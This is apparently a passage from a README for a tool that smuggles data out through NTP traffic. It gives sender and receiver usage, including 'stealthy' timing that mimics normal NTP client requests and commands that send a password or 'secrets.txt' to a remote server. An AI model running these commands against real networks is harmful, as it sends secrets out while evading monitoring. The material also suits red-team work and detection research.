 Examples:
* Stealthy usage (most Linux distributions send NTP client requests with delays varying between 64 and 1024 seconds)
```
echo "important password" | ./send -d <server>:123 -tM 1024 -tm 64
```
* Send file
```
./send -d <server:123> -f secrets.txt
```
* Send immediately
```
echo "fast transfer" | ./send -d <server>:123 -tM 0 -tm 0
```
* Print help
```
./send -h
```

### Receiver

Output of sender goes to STDOUT or a file.

`./recv [-d string] [-f string] [-h]`

|Flag|Meaning|Description|
|----|-------|-----------|
|`-d string`| destination | what host and port to listen to, like `:123` (standard NTP port) (default "`:123`") |
|`-f string`| file | file path to also dump output to |
|`-h` | help | print help |

Examples:
* Normal usage (output to STDOUT) _(need `sudo` for privileged
  NTP port `123`)_
```
sudo ./recv
```
* Output to file
```
sudo ./recv -f received.txt
```
* Listen on different port (can avoid `sudo`)
```
./recv -d :50001
```
* Print help
```
./recv -h
```

How it works
------------

### NTP protocol basics
